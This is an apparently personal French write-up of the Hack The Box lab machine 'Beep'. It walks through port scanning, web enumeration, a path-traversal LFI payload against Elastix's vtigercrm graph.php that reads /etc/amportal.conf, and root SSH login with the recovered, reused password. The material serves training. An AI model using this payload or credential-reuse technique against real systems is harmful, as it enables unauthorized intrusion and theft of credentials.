 # Box 


```diff
+ Niveau: Facile
```

Il existe plusieurs façon de resoudre cette box au travers des différents services exposés. J'ai choisi de montrer celle qui m'a permis de root la box moi même.

* **LFI**
* **mot de passe réutilisé**
* **SSH**


# FootHold

La première chose que je fais que je m'attaque à une box HTB c'est d'ajouter la résolution de nom box.htb à mon fichier /etc/hosts:

`echo "10.129.152.59	beep.htb"`

## Enumération des ports 

Scannons d'abords tout les ports:

`nmap 10.129.151.94 -p-` 

```
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
944/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Nous effectuons maintenant un scan plus complet sur les ports désignés (option -p):

`nmap 10.129.151.94 -p 22,25,80,110,111,143,443,944,993,995,3306,4190,4445,4559,5038,10000 -A `

```
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.151.94/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
|_ssl-date: 2021-05-25T14:38:08+00:00; 0s from scanner time.
944/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

## Site Web http:// deep.htb  et https:// deep.htb

Le site force l'usage d'HTTPS, il n'y a donc "rien à voir" sur le port 80 et nous sommes redirigés vers le port 443.

Il s'agit d'Elastix: 
![elastix](_ressource/Screenshot_20210526_095805.png)

### Enumération Web 

Pour se faire, j'utilise gobustrer, que je trouve très puissant (en terme de rapidité) et très complet (en termes d'options).

```
# Version "complete" installé via Github
gobuster dir -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k

# Version "short" installé via apt

gobuster -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k
```

_NB: Ne pas oublier l'option -k qui permet d'utiliser le mode "insecure" et donc d'ingorer les certificats SSL du site HTTPs._

```
/index.php (Status: 200)
/images (Status: 301)
/help (Status: 301)
/register.php (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/config.php (Status: 200)
/robots.txt (Status: 200)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
```

Après avoir fouillé un peu partout il ne semble pas y avoir de choses intéressantes à première vue.


### Recherche de faille:

Lorsqu'il s'agit de rechercher une faille, j'aime utiliser l'outil "searchsploit" disponible sur Kali.

`searchsploit elastix`

Parmis les failles proposés, celle qui me semble pour l'instant intéressante est la [LFI sur le graph.php](https://www.exploit-db.com/exploits/37637).

> LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

On se rend donc sur la page: https://deep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

L'affichage n'est pas optimal, pour y voit plus clair: `CTRL + U` pour afficher le code source

![img](_ressource/ctrl.png)

On voit que le mot de passe suivant est utilisé un peu partout: **jEhdIekWmdjE**


# Root

## Accès SSH

Lorsque qu'on essaie de se connecter à l'utilisateur root via ssh (et le mot de passe: jEhdIekWmdjE ) un message d'erreur apparaît:

```
ssh root@beep.htb

Unable to negotiate with 10.129.152.59 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1`
```

Pour régler ce problème:

`echo "KexAlgorithms +diffie-hellman-group1-sha1" >> ~/.ssh/config`

**NB**: On n'oubliera pas d'effacer ce fichier/cette ligne à la fin du CTF.

Il est maintenant possible de se connecter en root.
